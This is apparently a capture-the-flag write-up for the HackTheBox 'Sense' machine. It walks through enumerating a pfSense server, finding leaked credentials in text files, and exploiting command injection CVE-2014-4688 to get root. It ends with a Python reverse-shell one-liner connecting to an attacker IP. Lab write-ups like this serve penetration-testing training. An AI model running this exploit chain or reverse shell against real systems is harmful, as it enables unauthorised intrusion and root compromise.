







# Sense

## Service Enumeration

`nmapAutomator.sh -H 10.10.10.60 -t all`



There is a web service running on standard ports.

It turns out to be a pfSense login page.


The initial subdirectory enumeration did not yield anything interesting. If we look for `.txt` and `.php` files, however, we find some more interesting files.

`gobuster dir -u https://10.10.10.60 -w /usr/share/dirb/wordlists/common.txt -x .txt,.php -k`



The PHP pages will load the login page.

However, we find a `changelog.txt`:

```text
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

Using a longer wordlist, `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`, we find another `.txt` file.



```text
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

## Exploitation

The default credentials, `admin:pfsense` do not work. However, the `system-users.txt` file above indicated that a `Rohit` username exists, with a "company default" password.

Using the credentials `rohit:pfsense`, we successfully authenticate into the web application.

Here, we get more information on the system version.



This version is vulnerable to CVE 2014-4688, a command injection vulnerability.

Using code from [https://github.com/spencerdodd/pfsense-code-exec/blob/master/pfsense\_exec.py](https://github.com/spencerdodd/pfsense-code-exec/blob/master/pfsense_exec.py), we can exploit the vulnerability.

Change the configuration to suit our needs:

```python
username =         "rohit"
password =         "pfsense"
listener_ip =     "10.10.14.23"
listener_port = "4444"
target_ip = "10.10.10.60"
```



The service is running as root, so we get a root shell.



To upgrade to an interactive shell, we can catch the Python reverse shell on another terminal:

`export RHOST="10.10.14.23";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`



